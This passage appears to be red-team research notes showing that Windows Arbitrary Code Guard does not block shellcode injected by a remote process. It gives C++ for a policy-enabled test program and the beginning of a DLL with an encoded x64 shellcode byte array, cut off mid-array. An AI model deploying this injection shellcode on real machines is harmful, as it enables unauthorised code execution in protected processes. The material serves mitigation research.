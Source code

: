 Below shows that indeed it's still possible for a remote process to inject shellcode to a process protected with ACG:

* mitigationpolicy.exe is my program running with `ProcessDynamicCodePolicy` enabled
* injector.exe (remote process in this context) is a shellcode injector that will inject shellcode into ACG enabled mitigationpolicy.exe with PID 7752

![once injector is run against mitigationpolicy.exe, shellcode is executed](<../../.gitbook/assets/image (491).png>)

At first, I was confused as to why this was possible, but [@\_xpn\_](https://twitter.com/\_xpn\_) suggested that ACG's primary purpose was to: "...stop exploit chains where the first step of ROP was to set a page RWX and then write further shellcode to that page..." and suddenly it all made sense.

## Updates

After posting these notes on twitter, I got some replies that I wanted to highlight here:

![](<../../.gitbook/assets/image (494).png>)

## Code

{% tabs %}
{% tab title="mitigationpolicy.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
	PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = {};
	dcp.ProhibitDynamicCode = 1;
	SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));

	while (true)
	{
		Sleep(1000 * 2);
	}

	return 0;
}
```
{% endtab %}

{% tab title="injectorDllShellcode.dll" %}
```cpp
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
		case DLL_PROCESS_ATTACH:
		{
			unsigned char shellcode[] =
				"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
				"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
				"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
				"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
				"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
				"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
				"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
				"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
				"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
				"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
```